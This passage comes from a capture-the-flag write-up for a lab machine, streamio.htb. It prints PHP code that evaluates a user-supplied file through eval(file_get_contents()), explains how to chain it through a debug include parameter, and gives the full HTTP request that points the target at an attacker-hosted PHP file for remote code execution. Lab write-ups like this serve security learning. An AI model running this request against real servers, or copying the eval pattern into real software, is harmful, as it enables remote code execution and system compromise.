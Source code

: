 ```
} # while end
?>
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>
```




The page master.php is accepting an include parameter, which is evaluating file contents. We can abuse

this to perform remote file inclusion from the file_get_contents() and achieve remote code execution

from eval().

Since we cannot directly access the functions unless the page is included from another page, we can use the
?debug= parameter in index.php to include master.php, which will in turn make a POST request to a
remote server and attempt to load a remote file through the usage of an include parameter.

Start Burp Suite, then capture a GET request to /admin/?debug=master.php and send the request to

repeater. Right click in the request and select Change request method so that the request will now be a

POST request and add a parameter called include pointing to your local IP address.


so I sent the following request:
```
POST /admin/?debug=master.p HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=eml4vgijrn5dade2aqmo6lb075
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Upgrade-Insecure-Requests: 1

include=http://10.10.14.19/test.php
```

